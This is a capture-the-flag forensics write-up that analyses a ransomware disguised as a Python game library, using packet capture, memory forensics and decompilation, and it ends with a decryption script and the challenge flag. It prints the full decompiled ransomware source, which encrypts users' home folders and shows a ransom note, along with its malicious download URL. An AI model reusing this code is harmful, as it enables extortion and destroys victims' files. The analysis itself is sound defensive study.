


## CHALLENGE INFO
> In my company, we are developing a new python game for Halloween.
> I'm the leader of this project; thus, I want it to be unique.
> So I researched the most cutting-edge python libraries for game development until I stumbled upon a private game-dev discord server.
> One member suggested I try a new python library that provides enhanced game development capabilities.
> I was excited about it until I tried it. Quite simply, all my files are encrypted now.
> Thankfully I manage to capture the memory and the network traffic of my Linux server during the incident.
> Can you analyze it and help me recover my files? To get the flag, connect to the docker service and answer the questions.
> WARNING! Do not try to run the malware on your host.
> It may harm your computer!

---
## Tools
https://github.com/extremecoders-re/pyinstxtractor
https://github.com/rocky/python-uncompyle6/
https://www.wireshark.org/
https://github.com/volatilityfoundation/volatility

For this challenge we receive the following files.
```Bash
remnux@remnux:~/Downloads/forensics_poof$ md5sum *
41f7b5a308dfa7eaaf1032a184b21f05  candy_dungeon.pdf.boo
ae7461142d946d43dbee834deb901dbb  mem.dmp
0136cc7dfd296718e11c6e93dc99f0eb  poof_capture.pcap
6767c2f69d64d0ab935ef3279db8dea7  Ubuntu_4.15.0-184-generic_profile.zip
```
**Question #1: Which is the malicious URL that the ransomware was downloaded from? (for example: http[:]//maliciousdomain/example/file[.]extension)**

Upon opening the packet capture, the malicious download URL is immediatly visible and it looks like it's pretending to be a python package.
`http://files.pypi-install.com/packages/a5/61/caf3af6d893b5cb8eae9a90a3054f370a92130863450e3299d742c7a65329d94/pygaming-dev-13.37.tar.gz`

**Question #2: What is the name of the malicious process? (for example: malicious)**
I then download the malicious python package from the pcap.

Unpacking the archive reveals a ELF binary.
```Bash
remnux@remnux:~/Downloads/forensics_poof$ ls
boot  candy_dungeon.pdf.boo  mem.dmp  poof_capture.pcap  pygaming-dev-13.37  pygaming-dev-13.37.tar.gz  Ubuntu_4.15.0-184-generic_profile.zip  volatility
remnux@remnux:~/Downloads/forensics_poof$ cd pygaming-dev-13.37/
remnux@remnux:~/Downloads/forensics_poof/pygaming-dev-13.37$ ls
configure
remnux@remnux:~/Downloads/forensics_poof/pygaming-dev-13.37$ file configure 
configure: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
```
We can now most likely guess that this will also be the malicious process running on the host. 
But just in order to confirm this I will add the given volatility profile to volatility2 and list the machines process tree.
https://github.com/volatilityfoundation/volatility/wiki/Linux#using-the-plugins
```Bash
remnux@remnux:/opt/volatility$ sudo python2 vol.py -f mem.dmp --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_pstree
Volatility Foundation Volatility Framework 2.6.1
Name                 Pid             Uid            
systemd              1                              
.systemd-journal     429                            
.lvmetad             439                            
.systemd-udevd       453                            
.systemd-timesyn     636             62583          
.systemd-network     734             100            
.systemd-resolve     751             101            
.accounts-daemon     820                            
.dbus-daemon         822             103            
.networkd-dispat     839                            
.lxcfs               841                            
.rsyslogd            846             102            
.systemd-logind      856                            
.atd                 857                            
.cron                864                            
.unattended-upgr     873                            
.polkitd             874                            
.agetty              890                            
.sshd                891                            
..sshd               1171                           
...sshd              1311            1000           
....bash             1312            1000           
.....configure       1340            1000           
......configure      1341            1000           
```
The malicious process is seen running on the memory dump of the machine as well.
```Bash
remnux@remnux:/opt/volatility$ sudo python2 vol.py -f mem.dmp --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1312 bash                 2022-10-20 09:10:22 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:22 UTC+0000   pwd
    1312 bash                 2022-10-20 09:10:22 UTC+0000   sudo poweroff
    1312 bash                 2022-10-20 09:10:22 UTC+0000   history
    1312 bash                 2022-10-20 09:10:22 UTC+0000   ip a
    1312 bash                 2022-10-20 09:10:22 UTC+0000   sudo poweroff
    1312 bash                 2022-10-20 09:10:23 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:25 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:25 UTC+0000   cd Documents/
    1312 bash                 2022-10-20 09:10:27 UTC+0000   cd halloween_python_game/
    1312 bash                 2022-10-20 09:10:27 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:36 UTC+0000   wget http://files.pypi-install.com/packages/a5/61/caf3af6d893b5cb8eae9a90a3054f370a92130863450e3299d742c7a65329d94/pygaming-dev-13.37.tar.gz
    1312 bash                 2022-10-20 09:10:47 UTC+0000   tar -xf pygaming-dev-13.37.tar.gz
    1312 bash                 2022-10-20 09:10:48 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:51 UTC+0000   cd pygaming-dev-13.37/
    1312 bash                 2022-10-20 09:10:52 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:57 UTC+0000   ./configure 
```
The malicious binary can also be seen being run here in the bash history.

**Question #3: Provide the md5sum of the ransomware file.**
```Bash
remnux@remnux:~/Downloads/forensics_poof/pygaming-dev-13.37$ md5sum configure 
7c2ff873ce6b022663a1f133383194cc  configure
```

**Question #4: Which programming language was used to develop the ransomware? (for example: nim)**
I made a guess based on the name of the folder containing the elf binary and the malicious URL it was downloaded from.
`Python`

**Question #5: After decompiling the ransomware, what is the name of the function used for encryption? (for example: encryption)**
Decompiling the ELF binary is possible due to it being generated by PyInstaller.
First i extract the contents of the ransomware with `pyinstxtractor`
```Bash
remnux@remnux:/opt/pyinstxtractor$ sudo python2 pyinstxtractor.py /home/remnux/Downloads/forensics_poof/pygaming-dev-13.37/configure 
[+] Processing /home/remnux/Downloads/forensics_poof/pygaming-dev-13.37/configure
[+] Pyinstaller version: 2.1+
[+] Python version: 3.6
[+] Length of package: 7448520 bytes
[+] Found 79 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: configure.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.6 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: /home/remnux/Downloads/forensics_poof/pygaming-dev-13.37/configure

You can now use a python decompiler on the pyc files within the extracted directory
```
After extracting the contents I then decompile the extracted `configure.pyc` file using `uncompyle6`
```Python
remnux@remnux:/opt/pyinstxtractor/configure_extracted$ uncompyle6 configure.pyc 
# uncompyle6 version 3.9.0
# Python bytecode version base 3.6 (3379)
# Decompiled from: Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
# [GCC 9.3.0]
# Embedded file name: configure.py
from Crypto.Cipher import AES
import random, string, time, os

def Pkrr1fe0qmDD9nKx(filename: str, data: bytes) -> None:
    open(filename, 'wb').write(data)
    os.rename(filename, f"{filename}.boo")


def mv18jiVh6TJI9lzY(filename: str) -> None:
    data = open(filename, 'rb').read()
    key = 'vN0nb7ZshjAWiCzv'
    iv = b'ffTC776Wt59Qawe1'
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
    ct = cipher.encrypt(data)
    Pkrr1fe0qmDD9nKx(filename, ct)


def w7oVNKAyN8dlWJk() -> str:
    letters = string.ascii_lowercase + string.digits
    _id = ''.join(random.choice(letters) for i in range(32))
    return _id


def print_note() -> None:
    _id = w7oVNKAyN8dlWJk()
    banner = f"\n\nPippity poppity give me your property!\n\n\t   *                  ((((\n*            *        *  (((\n\t   *                (((      *\n  *   / \\        *     *(((    \n   __/___\\__  *          (((\n\t (O)  |         *     ((((\n*  '<   ? |__ ... .. .             *\n\t \\@      \\    *    ... . . . *\n\t //__     \t// ||\\__   \\    |~~~~~~ . . .   *\n====M===M===| |=====|~~~~~~   . . .. .. .\n\t\t *  \\ \\ \\   |~~~~~~    *\n  *         <__|_|   ~~~~~~ .   .     ... .\n\t\nPOOF!\n\nDon't you speak English? Use https://translate.google.com/?sl=en&tl=es&op=translate \n\nYOU GOT TRICKED! Your home folder has been encrypted due to blind trust.\nTo decrypt your files, you need the private key that only we possess. \n\nYour ID: {_id}\n\nDon't waste our time and pay the ransom; otherwise, you will lose your precious files forever.\n\nWe accept crypto or candy.\n\nDon't hesitate to get in touch with cutie_pumpkin@ransomwaregroup.com during business hours.\n\n\t"
    print(banner)
    time.sleep(60)


def yGN9pu2XkPTWyeBK(directory: str) -> list:
    filenames = []
    for filename in os.listdir(directory):
        result = os.path.join(directory, filename)
        if os.path.isfile(result):
            filenames.append(result)
        else:
            filenames.extend(yGN9pu2XkPTWyeBK(result))

    return filenames


def main() -> None:
    username = os.getlogin()
    directories = [
     f"/home/{username}/Downloads",
     f"/home/{username}/Documents",
     f"/home/{username}/Desktop"]
    for directory in directories:
        if os.path.exists(directory):
            files = yGN9pu2XkPTWyeBK(directory)
            for fil in files:
                try:
                    mv18jiVh6TJI9lzY(fil)
                except Exception as e:
                    pass

    print_note()


if __name__ == '__main__':
    main()
# okay decompiling configure.pyc
```
From the decompiled output the ransomwares encryption function is visible.
`mv18jiVh6TJI9lzY`

**Question #6: Decrypt the given file, and provide its md5sum.**
I can now easily create a decryption script using the encryption functions Key, IV, Encryption Cipher and Encryption Mode.
```Python
from Crypto.Cipher import AES

data = open('candy_dungeon.pdf.boo', 'rb').read()
key = 'vN0nb7ZshjAWiCzv'
iv = 'ffTC776Wt59Qawe1'
cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv.encode('utf-8'))
ct = cipher.decrypt(data)
f = open('candy_dungeon.pdf', 'wb')
f.write(ct)
```
The decrypted pdf is now readable and can be opened. Revealing a halloween video game development plan.

```Bash
remnux@remnux:~/Downloads/forensics_poof$ md5sum candy_dungeon.pdf
3bc9f072f5a7ed4620f57e6aa8d7e1a1  candy_dungeon.pdf
```
After providing the decrypted pdfs md5 hash we receive the flag for solving the challenge.
`HTB{n3v3r_tru5t_4ny0n3_3sp3c14lly_dur1ng_h4ll0w33n}`